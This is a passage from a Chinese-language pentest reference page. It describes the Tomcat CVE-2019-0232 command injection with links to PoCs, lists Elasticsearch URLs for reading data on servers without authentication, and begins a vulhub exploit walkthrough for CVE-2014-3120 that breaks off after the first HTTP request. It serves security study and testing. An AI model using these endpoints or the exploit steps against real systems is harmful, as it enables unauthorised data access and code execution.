 **CVE-2019-0232**
- 简介

    该漏洞是由于 Tomcat CGI 将命令行参数传递给 Windows 程序的方式存在错误，使得 CGIServlet 被命令注入影响。

    该漏洞只影响 Windows 平台，要求启用了 CGIServlet 和 enableCmdLineArguments 参数。但是 CGIServlet 和 enableCmdLineArguments 参数默认情况下都不启用。

- 影响版本
    - Apache Tomcat 7.0.0 ~ 7.0.93
    - Apache Tomcat 8.0.0 ~ 8.5.39
    - Apache Tomcat 9.0.1 ~ 9.0.17

- 文章
    - [CVE-2019-0232:Apache Tomcat RCE漏洞分析](https://xz.aliyun.com/t/4875)
    - [复现CVE-2019-0232过程中遇到的坑 Apache Tomcat高危远程代码执行漏洞](http://www.nmd5.com/?p=375)

- POC | Payload | exp
    - [pyn3rd/CVE-2019-0232](https://github.com/pyn3rd/CVE-2019-0232)
    - [jas502n/CVE-2019-0232](https://github.com/jas502n/CVE-2019-0232)

---

## ElasticSearch

> 官网 : https://www.elastic.co/

ElasticSearch 是一个基于 Lucene 的搜索服务器.它提供了一个分布式多用户能力的全文搜索引擎,基于 RESTful web 接口.Elasticsearch 是用 Java 开发的,并作为 Apache 许可条款下的开放源码发布,是当前流行的企业级搜索引擎.

**未授权访问漏洞**

- `http://<ip>:9200`
- `http://<ip>:9200/_plugin/head/` web管理界面
- `http://<ip>:9200/_cat/indices`
- `http://<ip>:9200/_river/_search` 查看数据库敏感信息
- `http://<ip>:9200/_nodes` 查看节点数据
- `http://<ip>:9200/_cat/indices?v` 查看当前节点的所有 Index
- `http://<ip>:9200/_search?pretty=true` 查询所有的 index, type
- `curl http://<ip>:9200/_nodes` 查看节点数据

**CVE-2014-3120 ElasticSearch 命令执行漏洞**
- 简介

    老版本 ElasticSearch 支持传入动态脚本 (MVEL) 来执行一些复杂的操作,而 MVEL 可执行 Java 代码,而且没有沙盒,所以我们可以直接执行任意代码.

- 影响版本
    - ElasticSearch 1.1.1

- POC | Payload | exp

    来源: [ElasticSearch 命令执行漏洞 (CVE-2014-3120) 测试环境](https://vulhub.org/#/environments/elasticsearch/CVE-2014-3120/)

    首先,该漏洞需要 es 中至少存在一条数据,所以我们需要先创建一条数据:
    ```
    POST /website/blog/ HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 25
